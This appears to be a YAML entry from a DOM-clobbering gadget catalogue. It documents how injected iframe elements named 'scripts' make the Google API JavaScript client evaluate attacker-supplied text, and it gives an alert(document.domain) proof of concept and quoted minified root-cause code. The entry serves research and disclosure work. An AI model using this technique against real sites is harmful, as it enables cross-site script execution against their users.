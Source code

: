 ```yaml
---
description: The Google API Client Library for JavaScript is designed for JavaScript client-application developers. It offers simple, flexible access to many Google APIs.
github: google/google-api-javascript-client
gadgets:
  ≤5BIk7BglYEE:
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - iframe-tag
      - name-attr
      - src-attr
      - unsafe-eval-csp
      - before-func-call
    pocs:
      - description: The [Google API Client Library](https://github.com/google/google-api-javascript-client) was using the `document.scripts` elements' `innerText` content (if it has a `src` attribute → only `<iframe>` elements can clobber `document`, have an `innerText` and a `src`) to evaluate JavaScript code.
        code: |
          <!-- user input -->
          <iframe name="scripts" src="https://apis.google.com/js/api.js">alert(document.domain)</iframe>
          <iframe name="scripts" src="https://apis.google.com/js/api.js">alert(document.domain)</iframe>

          <script nonce="secret">
            // Load the Google API client library
            function loadGapi() {
              const script = document.createElement("script");
              script.src = "https://apis.google.com/js/api.js";
              script.nonce = "secret";
              script.onload = () => initGapi();
              document.body.appendChild(script);
            }

            // Initialize the Google API client library
            function initGapi() {
              gapi.load("client", initClient);
            }

            // Set up the API client and make a request
            function initClient() {}

            // Load the additional script
            function loadAdditionalScript() {
              const script = document.createElement("script");
              script.src = "https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.5BIk7BglYEE.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAC/rs=AHpOoo9V8V9Op_7rn4BCy9pIOBNUyU2IjA/cb=gapi.loaded_0?le=scs";
              script.nonce = "secret";
              document.body.appendChild(script);
            }

            // Initialize the loading process
            function initialize() {
              loadGapi();
              loadAdditionalScript();
            }

            initialize();
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.5BIk7BglYEE.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAC/rs=AHpOoo9V8V9Op_7rn4BCy9pIOBNUyU2IjA/cb=gapi.loaded_0?le=scs">https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.5BIk7BglYEE.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAC/rs=AHpOoo9V8V9Op_7rn4BCy9pIOBNUyU2IjA/cb=gapi.loaded_0?le=scs</a>

      ```javascript
      var e = document.scripts || document.getElementsByTagName("script") || [];
      d = [];
      var f = [];
      f.push.apply(f, zf("us"));
      for (var h = 0; h < e.length; ++h)
          for (var k = e[h], l = 0; l < f.length; ++l)
              k.src && 0 == k.src.indexOf(f[l]) && d.push(k);
      0 == d.length && 0 < e.length && e[e.length - 1].src && d.push(e[e.length - 1]);
      for (e = 0; e < d.length; ++e)
          d[e].getAttribute("gapi_processed") || (d[e].setAttribute("gapi_processed", !0),
          (f = d[e]) ? (h = f.nodeType,
          f = 3 == h || 4 == h ? f.nodeValue : f.textContent || "") : f = void 0,
          (f = Df(f)) && b.push(f));
      a && Ef(c, a);

      // [...]

      Df = function(a) {
          if (a && !/^\s+$/.test(a)) {
              for (; 0 == a.charCodeAt(a.length - 1); )
                  a = a.substring(0, a.length - 1);
              try {
                  var b = window.JSON.parse(a)
              } catch (c) {}
              if ("object" === typeof b)
                  return b;
              try {
                  b = (new Function("return (" + a + "\n)"))()
              } catch (c) {}
              if ("object" === typeof b)
                  return b;
              try {
                  b = (new Function("return ({" + a + "\n})"))()
              } catch (c) {}
              return "object" === typeof b ? b : {}
          }
      }
      ```
    links:
      - https://apis.google.com/js/api.js#latest
      - https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.5BIk7BglYEE.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAC/rs=AHpOoo9V8V9Op_7rn4BCy9pIOBNUyU2IjA/cb=gapi.loaded_0?le=scs#vulnerable
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-client-api.md
---
```

